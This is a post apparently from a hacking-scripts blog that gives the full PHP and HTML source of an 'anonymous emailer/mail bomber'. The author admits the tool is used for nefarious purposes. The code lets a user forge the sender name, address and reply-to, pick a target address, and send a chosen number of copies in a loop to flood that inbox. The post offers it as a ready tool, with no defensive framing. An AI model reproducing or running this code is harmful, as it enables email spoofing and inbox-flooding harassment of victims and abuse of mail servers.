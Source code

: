 ```yaml
---
id: 148
title: PHP Anonymous Emailer/Mail Bomber
author: admin
layout: post
guid: http://hackingscripts.com/?p=148
permalink: /php-anonymous-emailer/
categories:
  - PHP
tags:
  - Email bomber
  - PHP
---
```

Ok, so this isn&#8217;t really a hack script as such, but is also used for nefarious activities, and therefore is included here.

### PHP Anonymous Emailer/Mail Bomber Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;html&gt;
&lt;head&gt;
  &lt;title&gt;PHP Anonymous Emailer/Mail Bomber&lt;/title&gt;
&lt;body bgcolor="black" text="white"&gt;
&lt;form action="" method="post"&gt;
&lt;br&gt;&lt;font size="5" face="verdana"&gt;Sender&lt;/font&gt;&lt;br&gt;
&lt;br&gt;
   &lt;font size="2" face="verdana"&gt;&lt;b&gt;Name:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="from_name" type="text" value="" size="50"&gt;
    &lt;br&gt;&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Email Adress:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="from_mail" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Reply Adress:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="email_return" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
&lt;br&gt;
&lt;br&gt;
  &lt;/div&gt;
  &lt;font size="5" face="verdana"&gt;Recipient Details&lt;/font&gt;&lt;br&gt;&lt;br&gt;
  &lt;font size="2" face="verdana"&gt;&lt;b&gt;Recipient Email:&lt;/b&gt;&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="target" type="text" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Subject:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="subject" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Message:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;textarea name="message" cols="38" rows="5"&gt;&lt;/textarea&gt;
  &lt;br&gt;&lt;br&gt;&lt;font size="2" face="verdana"&gt;&lt;b&gt;Number Of Messages To Send&lt;/b&gt;&lt;/font&gt;&lt;p&gt;
    &lt;input name="messages" type="text" id="messages" value="" size="15"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;input type=submit&gt;
  &lt;/p&gt;
&lt;/form&gt;
   &lt;?php
       $header="From:$from_name&lt;$from_mail&gt;\n";
       $header .= "Reply-To:$email_return\n";
       $message2 = stripcslashes($message);
       for($x=1;$x&lt;$messages+1;$x++){
        mail($target,$subject,$message2,$header);
       }
   ?&gt;
</pre>